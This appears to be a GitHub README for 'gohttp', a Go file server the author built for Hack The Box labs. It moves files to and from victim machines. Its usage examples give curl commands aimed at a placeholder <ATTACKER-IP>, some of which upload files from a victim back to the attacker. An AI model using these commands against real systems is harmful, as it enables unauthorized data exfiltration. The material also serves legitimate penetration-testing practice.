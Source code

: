 # gohttp
[![Go Reference](https://pkg.go.dev/badge/github.com/hebelsan/gohttp.svg)](https://pkg.go.dev/github.com/hebelsan/gohttp) ![build](https://github.com/hebelsan/gohttp/actions/workflows/build.yml/badge.svg) [![Go Report Card](https://goreportcard.com/badge/github.com/hebelsan/gohttp)](https://goreportcard.com/report/github.com/hebelsan/gohttp)


While playing on hackthebox.com I was missing the capability to upload files from the victims machines back to my machine with Python SimpleHTTPServer.  
Therefore I wrote **gohttp** which supports both uploading and downloading files just by using the go standard library.

## Installation
### go install
First make sure that `${GOPATH}/bin` is in your `$PATH`, then:
```bash
go install github.com/hebelsan/gohttp@latest
./gohttp
```
### docker
```bash
docker pull ghcr.io/hebelsan/gohttp:latest
docker run --rm -v $(pwd):/mount -p 80:80 ghcr.io/hebelsan/gohttp
```
### manual
```bash
git clone https://github.com/hebelsan/gohttp
go run main.go
```

## Usage
All the files that should be served must be inside the directory where `gohttp` is executed.

###  Download a file from your attack device:
```bash
curl -O http://<ATTACKER-IP>/<FILENAME>
```

###  Upload a file back to your attack device as multipart
```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

###  Multiple file upload supported, just add more -F 'file=@<FILENAME>'
```bash
curl -F 'file=@<FILE1>' -F 'file=@<FILE2>' http://<ATTACKER-IP>/
```

###  Upload using raw body and filename header
```bash
curl -H "filename: test.txt" --data "this is raw data" http://<ATTACKER-IP>/
```

## Configuration

### Files root path
Per default every file is transferred from and to the current working directory.  
To change this behaviour:
```bash
export FILES_ROOT=/tmp
```

### Authentication
If you are scared that somebody else in your network 
either get's access to your files or uploads random
files without your permission set:
```bash
export AUTH=API-KEY
```
This will generate a new api key on startup and after each request.  
The key is printed to the console and has to be passed 
as `X-API-KEY` header:
```bash
curl -H "X-API-KEY: F94CE8F8-2E28-7806-94A4-8DF3FB722814" -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

### Port
Per default port 80 is used. To change it:
```bash
export PORT=4444
```
